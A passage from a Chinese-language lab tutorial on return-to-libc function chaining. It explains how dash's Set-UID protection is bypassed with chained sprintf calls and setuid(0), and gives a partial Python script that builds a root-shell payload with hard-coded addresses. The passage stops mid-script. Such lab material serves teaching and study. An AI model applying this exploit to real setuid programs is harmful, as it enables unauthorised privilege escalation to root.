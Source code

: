 在 Ubuntu中，**`/bin/sh`** 实际上是一个指向 **`/bin/dash`** 的链接文件。dash 实现了一个保护机制，**<font color="red">当它发现自己在一个 Set-UID 进程中运行时，会立刻把有效用户 ID 变成实际用户 ID，主动放弃特权，即 dash 或者 bash 发现有效用户 ID 和实际用户 ID 不一致时，他们会立刻将有效用户 ID 修改成实际用户 ID</font>**。这种做法是很好的，因为在 Set-UID 进程中运行 shell 程序是相当危险的，这也是无法得到 root 权限的原因，Bash 也实现了同样的保护机制。

因此我们可以在执行 dash 或者 bash 之前调用 setuid(0) 系统调用将真实用户 ID 修改为 0。这是因为在执行上述函数调用链时，漏洞程序是一个 Setuid 程序，并且程序的实际拥有者为 root，这就使得程序的有效用户 ID 为 root，而访问控制是通过有效用户来开展的，这就使得漏洞程序拥有超级用户特权。因此调用 setuid(0) 会将实际用户 ID、有效用户 ID，以及保存的设置用户 ID 设置为参数 uid。从而避免了上述 bash/dash 的保护机制。

## 七、使用调用链技术获取 root Shell

现在我们使用第 6 节提到的如下调用链来构造 badfile 文件。

```c{.line-numbers}
foo() --> sprintf(T, S) --> sprintf(T+1, S) --> sprintf(T+2, S) --> sprintf(T+3, S) --> setuid(0) --> system("/bin/sh") --> exit()
```

而现在主要的问题是算出 setuid() 的第一个参数的地址。在我们的构造中，我们将每个函数调用的栈帧相隔 0x20 字节，所以如果 foo() 的栈帧在 X（即 foo 函数栈帧指针 %ebp 的值是 X），那么第一个 sprintf 函数的栈帧将在 **`X+4+0x20`**，第二个函数将在 **`X+4+0x40`**，依此类推。setuid() 函数是调用链中的第 5 个函数，所以它的栈帧将在 **`X+4+5*0x20`**。由于函数的第一个参数总是在 %ebp+8 位置，因此 setuid() 的参数的地址将是 **`X+12+5*0x20`**。我们还需要算出 /bin/sh 字符串中的零字节的地址。

```python{.line-numbers}
import sys

def tobytes(value):
    return (value).to_bytes(4, byteorder='little')

content = bytearray(0xaa for i in range(112))

sh_addr      = 0xffffd38c
leaveret     = 0x56556263
sprintf_addr = 0xf7dd4580
system_addr  = 0xf7dc4cd0
exit_addr    = 0xf7db71f0
ebp_foo      = 0xffffc8e8
setuid_addr  = 0xf7e5ad30

sprintf_arg1 = ebp_foo + 12 + 5*0x20
sprintf_arg2 = sh_addr + len("/bin/sh")

ebp_next = ebp_foo + 0x20
content += tobytes(ebp_next)
content += tobytes(leaveret)
content += b'A' * (0x20 - 2*4)

for i in range(4):
    ebp_next += 0x20
    content  += tobytes(ebp_next)
    content  += tobytes(sprintf_addr)
    content  += tobytes(leaveret)
    content  += tobytes(sprintf_arg1)
    content  += tobytes(sprintf_arg2)
    content  += b'A' * (0x20 - 5*4)
    sprintf_arg1 += 1

ebp_next += 0x20
content  += tobytes(ebp_next)
content  += tobytes(setuid_addr)
content  += tobytes(leaveret)
content  += tobytes(0xFFFFFFFF)
content  += b'A' * (0x20 - 4*4)

ebp_next += 0x20
content  += tobytes(ebp_next)
content  += tobytes(system_addr)
```